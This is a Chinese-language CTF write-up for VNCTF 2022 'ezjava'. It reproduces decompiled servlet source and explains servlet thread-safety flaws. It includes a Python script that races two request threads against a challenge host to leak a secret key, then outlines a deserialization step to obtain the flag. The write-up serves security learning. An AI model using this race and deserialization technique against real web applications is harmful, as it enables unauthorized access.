 # VNCTF 2022-ezjava

### ！！！这题n年前做的了，实战找不到环境了，懂了线程那个的知识点就好



javaSec-Servlet的线程安全问题
刚开始有个任意文件读取，直接读Servlet文件反编译下先看HelloWorldServlet：

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package servlet;

import entity.User;
import java.io.IOException;
import java.util.Base64;
import java.util.Base64.Decoder;
import javax.servlet.ServletException;
import javax.servlet.ServletOutputStream;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import util.Secr3t;
import util.SerAndDe;

@WebServlet(
    name = "HelloServlet",
    urlPatterns = {"/evi1"}
)
public class HelloWorldServlet extends HttpServlet {
    private volatile String name = "m4n_q1u_666";
    private volatile String age = "666";
    private volatile String height = "180";
    User user;

    public HelloWorldServlet() {
    }

    public void init() throws ServletException {
        this.user = new User(this.name, this.age, this.height);
    }

    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        String reqName = req.getParameter("name");
        if (reqName != null) {
            this.name = reqName;
        }

        if (Secr3t.check(this.name)) {
            this.Response(resp, "no vnctf2022!");
        } else {
            if (Secr3t.check(this.name)) {
                this.Response(resp, "The Key is " + Secr3t.getKey());
            }

        }
    }

    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        String key = req.getParameter("key");
        String text = req.getParameter("base64");
        if (Secr3t.getKey().equals(key) && text != null) {
            Decoder decoder = Base64.getDecoder();
            byte[] textByte = decoder.decode(text);
            User u = (User)SerAndDe.deserialize(textByte);
            if (this.user.equals(u)) {
                this.Response(resp, "Deserialize…… Flag is " + Secr3t.getFlag().toString());
            }
        } else {
            this.Response(resp, "KeyError");
        }

    }

    private void Response(HttpServletResponse resp, String outStr) throws IOException {
        ServletOutputStream out = resp.getOutputStream();
        out.write(outStr.getBytes());
        out.flush();
        out.close();
    }
}


```



**Secr3t.class**：

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package util;

import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;
import org.apache.commons.lang3.RandomStringUtils;

public class Secr3t {
    private static final String Key = RandomStringUtils.randomAlphanumeric(32);
    private static StringBuffer Flag;

    private Secr3t() {
    }

    public static String getKey() {
        return Key;
    }

    public static StringBuffer getFlag() {
        Flag = new StringBuffer();
        InputStream in = null;

        try {
            in = Runtime.getRuntime().exec("/readflag").getInputStream();
        } catch (IOException var12) {
            var12.printStackTrace();
        }

        BufferedReader read = new BufferedReader(new InputStreamReader(in));

        try {
            String line = null;

            while((line = read.readLine()) != null) {
                Flag.append(line + "\n");
            }
        } catch (IOException var13) {
            var13.printStackTrace();
        } finally {
            try {
                in.close();
                read.close();
            } catch (IOException var11) {
                var11.printStackTrace();
                System.out.println("Secr3t : io exception!");
            }

        }

        return Flag;
    }

    public static boolean check(String checkStr) {
        return "vnctf2022".equals(checkStr);
    }
}


```

直接看他的check方法就好，我们再回到我们的那个servlet，可以看到这有两个判断，我们需要通过这两个判断来获取key值：

![](image/image_P1v_7UuU1T.png)



Servlet的线程安全问题

> Servlet实际上是一个单件，当我们第一次请求某个Servlet时，Servlet容器将会根据web.xml配 置文件或者是注解实例化这个Servlet类，之后如果又有新的客户端请求该Servlet时，则一般不 会再实例化该Servlet类，这说明了什么呢?简单来说，当多个用户一起访问时，得到的其实是 同一个Servlet实例，这样的话，他们对实例的成员变量的修改其实会影响到别人，所以在开发 的时候如果没有注意这个问题往往会有一些额安全问题，而往往Servlet的线程安全问题主要是 由于实例变量使用不当而引起



**ok，了解完原理我们来写个脚本进行竞争：**

```python
from concurrent.futures import thread
import requests
import threading

def thread1():
    host = "http://2f8095a8-05a4-42e1-ae3a-ceb7e81651f4.node4.buuoj.cn:81/"
    while True:
        r = requests.get(host+"evi1?name=wa1ki0")
        r.encoding = "utf-8"
        if r.text.find("The Key is")!=-1:
            print(r.text)

 
def thread2():
    host = "http://2f8095a8-05a4-42e1-ae3a-ceb7e81651f4.node4.buuoj.cn:81/"
    while True:
        r = requests.get(host+"evi1?name=vnctf2022")
        if r.text.find("The Key is")!=-1:
            print(r.text)

if __name__ == '__main__':
    thread1=threading.Thread(target=thread1)
    thread2=threading.Thread(target=thread2)
    thread1.start()
    thread2.start()
    thread1.join()
    thread2.join()



```

运行结果：

![](image/image_BY1hQh46-F.png)

key获得后会进行反序列化比较，其实只要反序列化一个要求的一模一样的类就好了：

![](image/image_XaJ71Juelo.png)

接着我们序列化一个类（transient关键字修饰的变量无法直接反序列化，所以在生产byte的时候需要重写一下writeObject，否则会自己的 User对象的height值为空) :

![](image/image_jyzFqrLZKM.png)

![](image/image_izYp-K8hjj.png)

传个参就好了最后：

![](image/image_o_oCpDS-eO.png)
